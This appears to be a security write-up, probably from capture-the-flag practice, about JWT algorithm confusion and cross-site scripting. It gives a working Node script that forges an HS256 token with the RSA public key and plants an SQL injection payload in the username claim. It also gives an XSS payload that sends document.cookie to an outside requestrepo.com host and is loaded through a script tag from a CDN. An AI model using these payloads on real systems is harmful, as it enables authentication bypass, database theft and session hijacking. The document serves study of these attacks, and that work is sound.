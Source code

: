 See the following example:

In the received side, the token is verified using symmetric and asymmetric algorithms:
```javascript
async decode(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```
First, it will try with RSA (RS) and later with Hash (HS) if the previous fails.

This way in the client side, we can modify the payload and sign the payload by changing the signing algorithm:

```javascript
const fs = require('fs');
const jwt = require('jsonwebtoken');

const publicKey  = fs.readFileSync('./public.key', 'utf8');
const validJwtToken  = fs.readFileSync('./jwt-token.txt', 'utf8');

decoded = jwt.verify(validJwtToken, publicKey, { algorithms: ["RS256"]})
decoded["username"] = "admin' AND 1=2 UNION SELECT 1,top_secret_flaag,3 FROM flag_storage  -- -"
re_encoded = jwt.sign(decoded, publicKey, {algorithm: 'HS256'})

console.log(re_encoded)
```
Here, we are using the public key to verify the received token, as the regular way.

Then, we change the payload and we sign again to generate the JWT. We use the public key and we change the algorithm to Hash. This way the receiver will verify the token using the public key. It will first fail with the asymmetric but it will work with the symmetric algorithm.

In this case, we are modifying the token to retrieve something from the database using an SQL injection.


### Cross-Site Scripting (XSS) <a name="xss"></a>

This is a massive vulnerability. It consist on a web application accepting input from the user. If the input is not sanitized, the attacker might be able to write HTML in the input form. This HTML can include malicious javascript code.

Let's imagine we have an application with a form with no sanitized input. On another view we list that input. An attacker can place JS code that will be executed in the other view.

E.g.
1. Create a payload file that will send the interesting data (in our case, we want to extract something from the cookie):
```js
fetch("https://ojm5l9c8.requestrepo.com/?" + document.cookie);
```
2. Write the XSS HTML code in the input form field:
```html
<script src=https://cdn.jsdelivr.net/gh/adriangalera/htb-cursed-secret-party-xss@master/xss.js></script>
```
3. In the remote url (requestrepo), you'll see the value of the `document.cookie`
